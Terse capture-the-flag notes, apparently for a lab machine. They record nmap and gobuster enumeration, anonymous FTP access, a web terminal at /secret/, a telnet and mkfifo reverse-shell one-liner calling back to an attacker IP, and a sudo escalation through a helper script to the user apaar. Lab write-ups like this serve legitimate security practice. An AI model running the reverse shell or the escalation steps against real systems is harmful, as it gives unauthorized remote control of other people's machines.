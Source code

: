 nmap

ssh

ftp

gobuster

/images

/secret/

ftp -> anonymous

note.txt:

Anurodh told me that there is some filtering on strings being put in the command -- Apaar

/secret/ --> web terminal

revshells.com --> telnet

```

TF=$(mktemp -u);mkfifo $TF && telnet 10.10.53.99 4443 0&lt;$TF | /bin/bash 1&gt;$TF

```

sudo -l 

/home/apaar/.helpline.sh --> sudo priv for apaar

sudo -u apaar ./helpline.sh --> /bin/bash --> id = apaarcd /home/
